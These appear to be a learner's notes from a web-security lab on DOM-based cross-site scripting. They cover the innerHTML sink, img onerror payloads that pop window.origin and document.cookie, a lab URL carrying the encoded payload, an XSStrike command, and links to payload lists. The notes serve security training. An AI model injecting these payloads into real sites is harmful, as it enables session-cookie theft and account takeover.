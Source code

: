 
Right below these lines, we see that the page uses the `innerHTML` function to write the `task` variable in the `todo` DOM:

```javascript
document.getElementById("todo").innerHTML = "<b>Next Task:</b> " + decodeURIComponent(task);
```

## DOM Attacks

 This is because the `innerHTML` function does not allow the use of the `<script>` tags within it as a security feature.

we can then use the following:

```html
<img src="" onerror=alert(window.origin)>
```

question:
get document cookie

```html
<img src="" onerror=alert(document.cookie)>
```


```http
http://94.237.54.42:31404/#task=%3Cimg%20src=%22%22%20onerror=alert(document.cookie)%3E
```

# XSS Discovery

## Automated Discovery
Almost all Web Application Vulnerability Scanners (like [Nessus](https://www.tenable.com/products/nessus), [Burp Pro](https://portswigger.net/burp/pro), or [ZAP](https://www.zaproxy.org/)) have various capabilities for detecting all three types of XSS vulnerabilities.


Some of the common open-source tools that can assist us in XSS discovery are [XSS Strike](https://github.com/s0md3v/XSStrike), [Brute XSS](https://github.com/rajeshmajumdar/BruteXSS), and [XSSer](https://github.com/epsylon/xsser). We can try `XSS Strike` by cloning it to our VM with `git clone`:


```shell-session
 python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test" 
```

#### XSS Payloads

We can find huge lists of XSS payloads online, like the one on [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md) or the one in [PayloadBox](https://github.com/payloadbox/xss-payload-list).

Note: XSS can be injected into any input in the HTML page, which is not exclusive to HTML input fields, but may also be in HTTP headers like the Cookie or User-Agent (i.e., when their values are displayed on the page).
